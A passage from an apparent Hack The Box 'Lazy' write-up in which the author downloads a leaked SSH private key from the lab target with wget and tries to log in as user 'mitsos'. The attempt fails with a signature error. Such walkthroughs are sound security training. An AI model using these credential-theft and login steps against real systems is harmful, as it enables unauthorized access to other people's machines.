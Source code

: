 ![rsa_key](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Lazy/rsa_key.png?raw=true)

With this key, we should be able to SSH into the machine as `mitsos`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# wget -O id_rsa http://10.10.10.18/mysshkeywithnamemitsos                                          
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# chmod 600 id_rsa 

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# ssh -i id_rsa mitsos@10.10.10.18
The authenticity of host '10.10.10.18 (10.10.10.18)' can't be established.
ED25519 key fingerprint is SHA256:CA0BPc42eJXqPJR5d4JYc3o+PPHnj7L2JY/wf5q7ve8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.18' (ED25519) to the list of known hosts.
sign_and_send_pubkey: no mutual signature supported
mitsos@10.10.10.18: Permission denied (publickey).
```
